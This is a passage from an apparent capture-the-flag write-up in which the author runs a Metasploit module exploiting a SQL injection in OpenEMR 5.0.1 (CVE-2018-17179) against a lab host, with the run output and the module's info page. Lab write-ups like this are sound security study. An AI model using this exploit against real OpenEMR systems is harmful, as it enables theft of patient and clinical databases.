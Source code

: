 When we run it we can see the exploit works, but it seems poorly written because
it is trying to dump all system tables (295) and it's pretty slow.

```
msf5 auxiliary(sqli/openemr/openemr_sqli_dump) > run
[*] Running module against 10.10.10.188

[*] DB Version: 5.7.30-0ubuntu0.18.04.1
[*] Enumerating tables, this may take a moment...
[*] Identified 295 tables.
[*] Dumping table (1/295): CHARACTER_SETS
[*] Dumping table (2/295): COLLATIONS
```

So let's exit that, the msf module will take hours to extract all those useless
tables.

Now we know the this SQLi is working let's see what exploit it is exactly:

```
msf5 auxiliary(sqli/openemr/openemr_sqli_dump) > info

       Name: OpenEMR 5.0.1 Patch 6 SQLi Dump
     Module: auxiliary/sqli/openemr/openemr_sqli_dump
    License: Metasploit Framework License (BSD)
       Rank: Normal
  Disclosed: 2019-05-17

Provided by:
  Will Porter <will.porter@lodestonesecurity.com>

Check supported:
  Yes

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS     10.10.10.188     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
  RPORT      80               yes       The target port (TCP)
  SSL        false            no        Negotiate SSL/TLS for outgoing connections
  TARGETURI  /                yes       The base path to the OpenEMR installation
  VHOST      hms.htb          no        HTTP server virtual host

Description:
  This module exploits a SQLi vulnerability found in OpenEMR version
  5.0.1 Patch 6 and lower. The vulnerability allows the contents of
  the entire database (with exception of log and task tables) to be
  extracted. This module saves each table as a `.csv` file in your
  loot directory and has been tested with OpenEMR 5.0.1 (3).

References:
  https://cvedetails.com/cve/CVE-2018-17179/
  https://github.com/openemr/openemr/commit/3e22d11c7175c1ebbf3d862545ce6fee18f70617
```
